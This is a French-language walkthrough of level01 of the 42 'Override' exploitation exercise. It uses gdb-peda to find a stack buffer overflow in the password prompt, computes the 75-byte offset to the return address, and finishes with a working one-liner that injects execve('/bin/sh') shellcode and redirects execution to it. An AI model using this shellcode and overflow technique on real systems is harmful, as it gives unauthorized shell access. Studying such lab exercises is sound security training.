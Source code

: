 # Level 01

- En testant des entrée trop longue on voit que la deuxieme entrée peut etre overflow
<pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
- On calcule donc le offset pour ecrire sur la Return Address
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
</pre>
- On recupere l'adress de la stack ou sera stocker le shellcode
<pre>
$> (echo dat\_wil; echo admin) | ltrace ./level01 1>&-
\_\_libc\_start\_main(0x80484d0, 1, -10540, 0x80485c0, 0x8048630 <unfinished ...>
puts("\*\*\*\*\*\*\*\*\* ADMIN LOGIN PROMPT \*\*\*"...)                            = 39
printf("Enter Username: ")                                             = 16
<strong>fgets("dat\_wil\n", 256, 0xf7fcfac0)                                    = 0x0804a040</strong>
puts("verifying username....\n")                                       = 24
puts("Enter Password: ")                                               = 17
fgets("admin\n", 100, 0xf7fcfac0)                                      = 0xffffd5ec
puts("nope, incorrect password...\n")                                  = 29
+++ exited (status 1) +++
</pre>
- Il suffit maintenant de lancer la commande
```
$> (python -c "print('dat_wil0' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 100)"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')"; cat) | ./level01 
```

